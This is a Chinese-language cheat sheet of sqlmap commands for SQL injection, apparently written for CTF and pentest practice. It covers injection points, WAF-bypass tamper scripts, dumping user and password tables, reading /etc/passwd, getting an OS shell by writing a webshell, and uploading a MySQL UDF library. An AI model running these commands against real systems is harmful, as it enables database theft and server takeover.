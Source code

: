sqlmap 是一个用于对关系型数据库自动化 SQL 注入检测和利用的开源工具。SQL 注入是一种常见的安全漏洞，允许攻击者通过注入恶意 SQL 语句来执行未经授权的数据库操作。sqlmap 旨在帮助安全研究人员和黑客发现和利用应用程序中的 SQL 注入漏洞。

sqlmap好像默认走系统代理，要注意系统代理的可达性，否则可能sqlmap一直失败。最好关闭系统代理，需要时手动指定代理。
## **安装sqlmap使用**
```
windows:
python sqlmap.py -u 网址

linux kali:
sudo apt update
sudo apt install sqlmap
sudo apt upgrade sqlmap  //更新sqlmap
sqlmap -u 网址
sqlmap -hh   //获取帮助
sqlmap -version 
```
sqlmap汉化版：
<https://github.com/BugFor-Pings/CN_Sqlmap>
<https://github.com/honmashironeko/sqlmap-gui>
bp插件安装sqlmap:<https://blog.csdn.net/luochen2436/article/details/118525503>
sqlmap-plus二开升级，增加MSSQL数据库注入的利用方式(调用ole对象和xpcmdshell,clr)等：<https://github.com/co01cat/SqlmapXPlus>

## **指定注入点**
手册：<https://static.kancloud.cn/lengyueguang/linux/1263643>
<https://sqlmap.highlight.ink/>
```
1. 默认get型注入点,直接-u加网址即可
-u http://sqlsec.com/index.php?r=default/news/content&id=16

2. get型伪静态网页，用*指定注入点
-u http://a.com/post/12*.html

参数键注入用?*=1

3. POST型注入点 ，UA头都为包里的
bp抓包，将请求体中注入点参数用*标记，如：id=12*
将请求体保存文件如s.txt中
sqlmap不用-u 用 -r s.txt

4. POST型注入点  ，此时的默认UA头带有sqlmap
--data="id=122"

5.xml里的参数点
和POST类似
```

## **常用模板命令**
```


–batch 批处理自动注入
--ignore-code=500  忽略500


sqlmap -u b7fdb6ca.sqlsec.com/?id=2 --dbs -v-3 --dump -C "content" -T flag_is_here -D "db"

mysql:
sqlmap -u "http" --dbms=mysql --random-agent -v 3



后台主机加cookie：
--cookie      加cookie请求



直接连接数据库
sqlmap.py -d "mysql://root:123456@127.0.0.1:3306/mysql" --os-shell
```


## **sqlmap常用参数**
```
--dbms=mysql    指明为mysql，节省识别时间

--random-agent  随机UA，防止WAF

-v 3      查看注入时使用的语句

--is-dba      看是否是管理员高权限

--privilege    查看权限
--current-user   查看当前登录数据库的用户名

--dbs    高权限获取所有数据库库名

--current-db   查看当前数据库的库名
返回[INFO] retrieved:'库名'

--tables      所有库中的表名
--tables -D "库名"  显示 指定库中的所有表名

--columns -T "表名" -D "库名"     获取表名中所有字段

--dump -C "name,password" -T “表名” -D "库名"   获取对应字段name,password的表中记录
password字段可能会顺带解密
```

```
--search   搜索列，表，库名

注入类型：默认从上到下
--technique=U 联合注入
--technique=E  报错型
--technique=B  布尔注入
--technique=T  时间注入
--technique=S  多语句查询注入
--technique=Q  内联注入，sqlserver用的多 

检测级别：
--level=1  默认为1
--level=2  加测 HTTP  Cookie  
--level=3  加测  UA,Referer
--level=4  更大的playload
--level=5  更大的 

检测风险级别
--risk    默认为1最高3，一般不最高3,可能会删库删除纪录，留脏数据。
--level=5  --risk=3,尽最大力进行sql注入。

--flush-sessions  清除缓存，清除脱裤纪录
--cookie      加cookie请求

--proxy socks5:// 127.0.0.1:10808   挂代理跑sqlmap
--proxy-file proxys.txt  使用代理池列表

--delay=1  每一秒请求一次
--retries   连接超时最大重试次数，默认为3
--skip="user-agent referer"  跳过注入

--threads 10  默认1，设置为10线程方便脱裤
```

^
## **请求方式**
```
--user-agent sqlmap 
--referer http://9.challenge.ctf.show/sqlmap.php
--data="id=1" --method=PUT --headers="Content-Type: text/plain" 

```


^
## **绕过防护**
```
--random-agent  随机UA，防止WAF


绕过WAF,修改注入数据格式：
sqlmap的tamper/文件中自带脚本
调用脚本
-- tamper="between,randomcase,space2comment"
-- tamper="symboliclogical,randomcase,space2comment"

between: <>=换成between
space2comment: 空格用/**/替换
randomcase: 随机字母大小写
symboliclogical: 替换or and

base64编码、url编码、双url编码、宽字节、使用/**/分割sql关键字、替换空格为xx
```
## **获取shell，文件操作等**
```
--sql-shell   调出sql的shell，可以使用sql语句，如用sql语句查询表中记录。如果要执行文件写入，插入数据，要使用堆叠注入。

--os-shell    调出系统交互shell
通过选择网站程序语言写入16进制的小马webshell到网站目录下，实现getshell。
如果找不到phpstudy网站目录，可以选择2，手动输入phpstudy的网站目录。
正常直接返回可以交互shell的窗口。
如果失败可以访问网址首页加/tmpxxxx.php看看，是一个上传文件表单的小马，这里可以手动上传shell.php，
上传也在当前目录，然后用蚁剑getshell。

--os-cmd=id   执行系统命令id

--file-read="/etc/passwd"  读文件，利用的load_file()函数
可以读flag文件，/var/www/html/index.php

sqlmap 来上传文件：
又因为 GET 有字节长度限制，所以往往 POST 注入才可以执行这种攻击
sqlmap写动态链接库
sqlmap -u "http://localhost:30008/" --data="id=1" 
--file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" 
--file-dest="/usr/lib/mysql/plugin/udf.so"

```

## **点到为止脱裤**
脱裤：下载数据库中的信息
一般都使用 sqlmap 来进行脱裤，使用 --start --stop 来设置脱裤的起点和终点：

```
sqlmap -u "http://127.0.0.1:8888/Less-1/?id=1" --dump -C'id,username,password' -T 'users' -D 'security' --start=1 --stop=5
```



如果要证明某个表下面的数量的话，直接使用 sqlmap 的 `--count` 参数即可

```
sqlmap -u "http://127.0.0.1:8888/Less-1/?id=1" --count -T 'users' -D 'security'
```

